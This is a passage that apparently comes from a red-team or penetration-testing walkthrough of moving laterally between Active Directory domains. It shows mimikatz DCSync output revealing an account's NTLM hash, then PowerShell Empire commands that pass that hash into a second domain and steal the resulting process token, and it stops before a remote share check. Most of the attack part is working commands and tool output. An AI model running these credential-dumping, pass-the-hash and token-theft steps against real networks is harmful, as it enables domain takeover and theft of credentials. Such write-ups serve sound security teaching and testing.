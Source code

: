 ```
'#####'
 with 18 modules * * */
mimikatz(powershell) # lsadump::dcsync /user:sysback /domain:GBSHOP.CORP
[DC] 'GBSHOP.CORP' will be the domain
[DC] 'SV0199.GBSHOP.CORP' will be the DC server
[DC] 'sysback' will be the user account
** SAM ACCOUNT **
SAM Username        : sysback
User Principal Name : sysback@GBSHOP.CORP
[...]
Credentials:
Hash NTLM: 26bc129c0ea27a6e66cfaf3080fb7947
```

With the NTLM hash for sysback, we can now spawn a new process on the server that will use this hash for authentication. This process will effectively impersonate the sysback account, assuming that the password hash is the same across both domains.

It’s important to note that successfully spawning a process with the NTLM hash does not confirm that the password is correct. The actual test of authentication will occur when the process tries to access remote resources, verifying if the hash can indeed authenticate across domains.

To authenticate using the sysback hash on the GBSALES domain, we proceed with the following steps:

```
(Empire: DCshop) > usemodule credentials/mimikatz/pth
(Empire: pth) > set user sysback
(Empire: pth) > set domain GBSALES.CORP
(Empire: pth) > set ntlm 26bc129c0ea27a6e66cfaf3080fb7947
(Empire: pth) > run
```

After running the command, the critical piece of information to look for is the Process ID (PID). Assume we have PID 3116.

If we were in an interactive graphical session, we would see a new window open under the sysback account. However, since we're using a reverse connection with Empire, the window remains hidden.

The newly spawned cmd.exe process runs with sysback's identity. This identity is represented by a security token in memory, akin to a web session cookie—it contains information about the user's privileges and identity.

To obtain sysback's security token, we use the following command to ‘steal’ it from the new process:

```
(Empire: dcsync) > interact DCshop
(Empire: DCshop) > steal 3116
(Empire: DCshop) >
Running As: GBSALES\rachel_adm
Use Credentials/tokens with RevToSelf option to revert token privileges
```

With sysback's token now available, we test whether sysback's password from GBSALES is indeed the same as the one in GBShop by executing a remote action. For example, we can list the protected C$ share on the GBSALES DC:
